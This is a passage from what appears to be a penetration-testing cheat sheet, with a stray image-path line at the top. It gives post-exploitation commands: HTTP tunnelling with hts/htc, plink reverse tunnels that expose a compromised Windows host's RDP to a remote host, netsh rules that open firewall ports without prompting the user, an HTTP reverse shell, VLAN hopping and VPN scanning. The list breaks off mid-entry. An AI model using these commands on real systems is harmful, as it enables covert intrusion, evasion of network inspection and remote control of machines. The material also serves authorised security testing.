     -   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80  `
        On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22  
    
        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    -   Port 22 blocked? Try port 80? or 443?  
    
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting the user

    -   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    -   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    -   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    -   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    -   Start the http tunnel client  
    
         `httptunnel_client.exe`

    -   Create HTTP reverse shell by connecting to localhost port 3000  
    
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

-   VLAN Hopping

    -   ```bash
        git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh
        ```
        

-   VPN Hacking

    -   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    -   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    -   Use IKEForce to enumerate or dictionary attack VPN servers:  
    